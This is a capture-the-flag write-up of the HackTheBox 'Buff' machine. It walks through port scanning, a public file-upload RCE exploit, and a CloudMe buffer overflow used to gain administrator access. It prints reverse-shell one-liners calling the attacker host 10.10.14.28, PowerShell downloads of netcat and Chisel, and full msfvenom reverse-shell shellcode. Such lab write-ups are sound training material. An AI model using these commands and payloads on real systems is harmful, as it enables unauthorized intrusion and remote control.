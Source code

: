 # HTB - Buff

#### Ip: 10.10.10.198
#### Name: Buff
#### Rating: Easy

----------------------------------------------------------------------

![Buff.png](../assets/buff_assets/Buff.png)

### Enumeration

I'll kick off enumerating this box by scanning all TCP ports with Nmap:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.198 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-01 16:16 CDT
Nmap scan report for 10.10.10.198
Host is up (0.072s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

Looks like just 2 open ports. Lets look a bit more closely at these using the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ sudo nmap -sC -sV -T4 10.10.10.198 -p 7680,8080
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-01 16:18 CDT
Nmap scan report for 10.10.10.198
Host is up (0.064s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-title: mrb3n's Bro Hut
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.49 seconds
```

Navigating to the site, we find what appears to be a gym website. I poked around not seeing too much of interest, until I found the Contact page. Looking here I find some more info about the software being used:

![software.png](../assets/buff_assets/software.png)

Not being familiar with this software, first thing I do is look it up using Searchsploit to see if there are any vulnerabilities/ exploits to be found.

![searchsploit.png](../assets/buff_assets/searchsploit.png)

Nice! I'm especially interested in the unauthenticated RCE exploit. You can either download it directly from searchsploit, or go out and grab it from ExploitDB (https://www.exploit-db.com/exploits/48506) Looking at the exploit, the comments state "Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters."

Interesting. Looking through the Python code, this should be good to just point and shoot, with no changes needed.

### Exploitation


I execute the exploit using:

`python2 gym-mgmt-system-rce.py http://10.10.10.198:8080/` 

(I'm using Python2 because this is an old script and I didn't want to have to go through and clean up all the print statements after the transition to Python3)

The foothold was a breeze. After firing the script I'm presented with a webshell, where I can grab user.txt.

![user_flag.png](../assets/buff_assets/user_flag.png)

### Privilege Escalation

This webshell is not the best to work out of, so I'm going to create a reverse shell from the webshell back to my machine, so I can enumerate more comfortably.

To do this I'll need to transfer a netcat executable to the target machine. First I'll set up a Python webserver and on the target box fetch netcat with:

```text
powershell -c iwr http://10.10.14.28/nc.exe -outfile nc.exe
```

Now that we have netcat on the target we can easily get a stable reverse shell by issuing:

```text
nc.exe 10.10.14.28 1234 -e cmd.exe
```

Great, now we have a stable, fully interactive shell to work with. 

![stable_shell.png](../assets/buff_assets/stable_shell.png)

Browsing around the machine, I find an interesting executable in Shaun's Downloads folder:

![find_cloudme.png](../assets/buff_assets/find_cloudme.png)

It also looks like the version number is being listed as well. Turning to ExploitDB to see if I can find any public exploits, I quickly find this one: https://www.exploit-db.com/exploits/48389. This is a Python script, which should be pretty straightforward to execute. 

But there is one small hurdle we'll have to get through first. Because this is exploit is written in Python, and Python is not normally installed on Windows machines, we'll need to use a tool like Chisel to tunnel from my attacking machine to the target.

So, lets get the exploit cleaned up and ready to execute and then transfer over Chisel to set up a tunnel.

### Modifying The Exploit

This is a pretty straight forward buffer overflow exploit which will only need light updating. Looking at the code it looks like the shellcode provided opens up calc.exe, but we want something a bit more useful than that. So what we need to do is utilize msfvenom to create some new shell code that contains a reverse shell back to our box. We can do that as follows:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.28 LPORT=4321 -b '\x00\x0A\x0D' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1899 bytes
payload =  b""
payload += b"\xdb\xc8\xd9\x74\x24\xf4\xbd\xbd\xdb\x9d\x98"
payload += b"\x5a\x29\xc9\xb1\x52\x83\xea\xfc\x31\x6a\x13"
payload += b"\x03\xd7\xc8\x7f\x6d\xdb\x07\xfd\x8e\x23\xd8"
payload += b"\x62\x06\xc6\xe9\xa2\x7c\x83\x5a\x13\xf6\xc1"
payload += b"\x56\xd8\x5a\xf1\xed\xac\x72\xf6\x46\x1a\xa5"
payload += b"\x39\x56\x37\x95\x58\xd4\x4a\xca\xba\xe5\x84"
payload += b"\x1f\xbb\x22\xf8\xd2\xe9\xfb\x76\x40\x1d\x8f"
payload += b"\xc3\x59\x96\xc3\xc2\xd9\x4b\x93\xe5\xc8\xda"
payload += b"\xaf\xbf\xca\xdd\x7c\xb4\x42\xc5\x61\xf1\x1d"
payload += b"\x7e\x51\x8d\x9f\x56\xab\x6e\x33\x97\x03\x9d"
payload += b"\x4d\xd0\xa4\x7e\x38\x28\xd7\x03\x3b\xef\xa5"
payload += b"\xdf\xce\xeb\x0e\xab\x69\xd7\xaf\x78\xef\x9c"
payload += b"\xbc\x35\x7b\xfa\xa0\xc8\xa8\x71\xdc\x41\x4f"
payload += b"\x55\x54\x11\x74\x71\x3c\xc1\x15\x20\x98\xa4"
payload += b"\x2a\x32\x43\x18\x8f\x39\x6e\x4d\xa2\x60\xe7"
payload += b"\xa2\x8f\x9a\xf7\xac\x98\xe9\xc5\x73\x33\x65"
payload += b"\x66\xfb\x9d\x72\x89\xd6\x5a\xec\x74\xd9\x9a"
payload += b"\x25\xb3\x8d\xca\x5d\x12\xae\x80\x9d\x9b\x7b"
payload += b"\x06\xcd\x33\xd4\xe7\xbd\xf3\x84\x8f\xd7\xfb"
payload += b"\xfb\xb0\xd8\xd1\x93\x5b\x23\xb2\x91\x91\x25"
payload += b"\x5e\xce\xa7\x39\x4e\xef\x21\xdf\x04\xff\x67"
payload += b"\x48\xb1\x66\x22\x02\x20\x66\xf8\x6f\x62\xec"
payload += b"\x0f\x90\x2d\x05\x65\x82\xda\xe5\x30\xf8\x4d"
payload += b"\xf9\xee\x94\x12\x68\x75\x64\x5c\x91\x22\x33"
payload += b"\x09\x67\x3b\xd1\xa7\xde\x95\xc7\x35\x86\xde"
payload += b"\x43\xe2\x7b\xe0\x4a\x67\xc7\xc6\x5c\xb1\xc8"
payload += b"\x42\x08\x6d\x9f\x1c\xe6\xcb\x49\xef\x50\x82"
payload += b"\x26\xb9\x34\x53\x05\x7a\x42\x5c\x40\x0c\xaa"
payload += b"\xed\x3d\x49\xd5\xc2\xa9\x5d\xae\x3e\x4a\xa1"
payload += b"\x65\xfb\x7a\xe8\x27\xaa\x12\xb5\xb2\xee\x7e"
payload += b"\x46\x69\x2c\x87\xc5\x9b\xcd\x7c\xd5\xee\xc8"
payload += b"\x39\x51\x03\xa1\x52\x34\x23\x16\x52\x1d"
```

With:
`-a` for the architecture
`-p` for the payload
`-b` for the bad-characters (we didn't need to fuzz these ourselves, just use what's in the exploit)
`-f` for the format
`-v` for the variable

After updating the shellcode in the exploit, that should be it for updating the script.

Next, lets use Chisel to set up a tunnel between our machine and the target.

### Chisel

Chisel is my favorite tool for situations like this, because it can be used on both Windows and Linux machines, doesn't require SSH access, and is incredibly straight forward. https://github.com/jpillora/chisel

First things first I need to copy Chisel over to the Buff machine. To do this I'll use the same PowerShell one-liner I used to transfer over netcat:

```text
powershell -c iwr http://10.10.14.28/chisel_1.8.1_windows_amd64 -outfile chisel.exe
```

After that I'll start up chisel on my box:

```text
┌──(ryan㉿kali)-[~/Tools/pivoting]
└─$ ./chisel_1.8.1_linux_arm64 server -p 8000 --reverse
2023/05/02 15:29:04 server: Reverse tunnelling enabled
2023/05/02 15:29:04 server: Fingerprint 309WBxmCGAhbAagxYAXEhj/f1HJY4GMGfA5zduVlXEk=
2023/05/02 15:29:04 server: Listening on http://0.0.0.0:8000
```

And finally I'll connect back to my server from Buff:

```text
chisel.exe client 10.10.14.28:8000 R:8888:localhost:8888
```

Cool, we should now have a tunnel to use now. Let's fire off the exploit and grab root.txt:

```text
python cloudme-1112-bof.py
```

and check our netcat listener for a reverse shell as administrator:

![root_flag.txt](../assets/buff_assets/root_flag.png)

Nice!

This was a great easy level box, with a simple foothold and privilege escalation, but gave users the ability to practice tunneling, which makes it more unique and fun. 

Thanks for following along!

-Ryan

-----------------------------------------------------------------------
